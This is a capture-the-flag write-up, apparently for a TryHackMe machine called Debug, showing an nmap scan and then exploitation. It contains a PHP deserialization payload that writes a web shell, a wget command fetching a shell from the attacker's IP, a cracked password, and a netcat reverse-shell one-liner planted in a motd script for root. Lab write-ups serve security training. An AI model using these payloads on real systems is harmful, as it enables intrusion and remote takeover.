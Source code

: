 # #1 Introduction
<img width="650" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/01ce8d44-bffa-4cc1-8286-d1565202ffaa">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx debug.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

http://debug.thm/index.php?debug=O:10:%22FormSubmit%22:2:{s:9:%22form_file%22;s:16:%22backup/test2.php%22;s:7:%22message%22;s:27:%22%3C?php%20system($_GET[%22cmd%22]);%22;}
http://debug.thm/backup/test2.php?cmd=wget%20http://10.8.72.209:8000/shell.php
http://debug.thm/backup/shell.php

jamaica          (james)

<img width="1222" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/c969f1e0-2854-4741-9b95-c7df0798a8bc">


we can edit /etc/update-motd.d/00-header
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6667 >/tmp/f
